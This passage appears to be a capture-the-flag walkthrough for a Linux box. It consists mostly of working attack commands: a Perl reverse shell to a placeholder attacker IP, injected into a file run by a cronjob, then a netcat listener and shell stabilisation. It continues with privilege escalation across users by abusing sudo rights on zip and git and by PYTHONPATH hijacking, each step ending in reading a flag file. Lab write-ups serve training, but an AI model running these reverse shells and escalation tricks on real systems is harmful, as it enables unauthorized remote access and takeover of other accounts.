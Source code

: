 Steps:
1) `tail -f 47.sh` Allows us to see when the content gets written
2) Write this into the file after the content is modified by the cronjob
```perl
#!/bin/bash
perl -e 'use Socket;$i="{attacker_ip}";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
3) Setup a netcat reverse listener (with magical potential!!)
```
/bin/bash
nc -lvnp 4242
```
4) Wait for the connection


## Shell stabilisation

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo;fg
ENTER
```

Now we have a lovely shell with tab autocomplete and that doesn't die when you CTRL+C

Now let's keep going

## Dalia -> Silvio
```
sudo -l
export TF=$(mktemp -u)
sudo -u silvio /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
bash
cd ~
cat flag.txt
```

Here we are exploiting the fact we can run zip as silvio. This allows us to get a sh session as silvio which we can then change into a bash session.

## Silvio -> Reza
```
sudo -l
sudo -u reza PAGER='bash -c "exec bash 0<&1"' git -p help
cd ~
cat flag.txt
```

## Reza -> Jordan
```
sudo -l
cd /tmp
touch shop.py
vim shop.py
Inside shop.py:
	import os
	os.system("/bin/bash")

sudo -u jordan PYTHONPATH=/tmp /opt/scripts/Gun-Shop.py 
cd ~
cat flag.txt | rev
```